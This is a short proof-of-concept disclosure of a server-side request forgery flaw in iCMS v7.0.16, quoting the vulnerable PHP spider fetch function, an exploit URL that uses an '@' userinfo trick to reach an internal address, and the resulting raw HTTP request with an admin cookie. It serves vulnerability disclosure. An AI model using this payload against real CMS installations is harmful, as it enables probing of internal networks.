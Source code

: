 # PoC

There is a SSRF vulnerability in the url parameter of the admincp.php interface in iCMS-v7.0.16
```
app\spider\spider_tools.class.php

public static function remote($url,$ref=null,$_count = 0) {
        if(self::safe_url($url)===false) return false;

        (iPHP_SHELL && self::$debug) && print self::datetime()."\033[36mspider_tools::remote\033[0m [".($_count+1)."] => ".$url.PHP_EOL;

        $parsed = parse_url($url);
        $url = str_replace('&amp;', '&', $url);
        if(empty(spider::$referer)){
            spider::$referer = $parsed['scheme'] . '://' . $parsed['host'];
        }

        $options = array(
            CURLOPT_URL                  => $url,
            CURLOPT_REFERER              => self::$CURLOPT_REFERER?self::$CURLOPT_REFERER:spider::$referer,
            CURLOPT_USERAGENT            => self::$CURLOPT_USERAGENT?self::$CURLOPT_USERAGENT:spider::$useragent,
            CURLOPT_ENCODING             => self::$CURLOPT_ENCODING?self::$CURLOPT_ENCODING:spider::$encoding,
            CURLOPT_TIMEOUT              => self::$CURLOPT_TIMEOUT,
            CURLOPT_CONNECTTIMEOUT       => self::$CURLOPT_CONNECTTIMEOUT,
            CURLOPT_RETURNTRANSFER       => 1,
            CURLOPT_FAILONERROR          => 0,
            CURLOPT_HEADER               => 0,
            CURLOPT_NOSIGNAL             => true,
            // CURLOPT_DNS_USE_GLOBAL_CACHE => true,
            // CURLOPT_DNS_CACHE_TIMEOUT    => 86400,
            CURLOPT_SSL_VERIFYPEER       => false,
            CURLOPT_SSL_VERIFYHOST       => false
            // CURLOPT_FOLLOWLOCATION => 1,// 使用自动跳转
            // CURLOPT_MAXREDIRS => 7,//查找次数，防止查找太深
        );
        ...
```

#### http://xxxx/admincp.php?app=spider_project&do=test&url=http://m09ic@192.168.156.136:80@baidu.com/&rid=2&pid=1&title=

```
GET c HTTP/1.1
Host: 192.168.156.136:88
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh,zh-CN;q=0.9
Cookie: iCMS_ADMIN_AUTH=b5e13749p_MURGBi7YR3-HetWrkTTKq1pTW78-1apE9T74fye8D9Ticl-PqpZ5raVcOeex3BRI6jYetvGYFegWP00Gv1a4Q2a_RIxQi81T1HtLgYm00OzJzHEb-pVQ
Connection: close


```

![image-20220923092557113](md_images/image-20220923092557113.png)

#### Acknowledgement

Thanks to the partners who discovered the vulnerability together：

Yi-fei Gao en-ze wang lin-jie wu